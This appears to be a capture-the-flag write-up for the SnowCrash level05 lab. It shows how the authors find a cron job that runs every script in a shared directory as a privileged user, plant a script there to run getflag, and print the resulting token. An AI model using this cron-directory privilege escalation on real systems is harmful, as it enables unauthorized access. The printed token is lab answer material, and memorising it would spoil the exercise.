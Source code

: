 First we tried to find all the files owned by flag05 : find / -user flag05 2> /dev/null
this command gave us : 
/usr/sbin/openarenaserver
/rofs/usr/sbin/openarenaserver
And with find / -iname level05 2> /dev/null
/var/mail/level05

Among other files but this last one is very interesting cause it's a cron file that contains:
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05

When we cat /usr/sbin/openarenaserver
We get : 

#!/bin/sh
for i in /opt/openarenaserver/* ; do
    (ulimit -t 5; bash -x "$i")
    rm -f "$i"
done

This script just exec all script in /opt/openarenaserver and erase it.
So we created in this directory a little bash who do this : 

#!/bin/bash

getflag > /var/tmp/test.txt

/*********************************************************\

level05@SnowCrash:~$ cat /var/tmp/test.txt
Check flag.Here is your token : viuaaale9huek52boumoomioc

\*********************************************************/
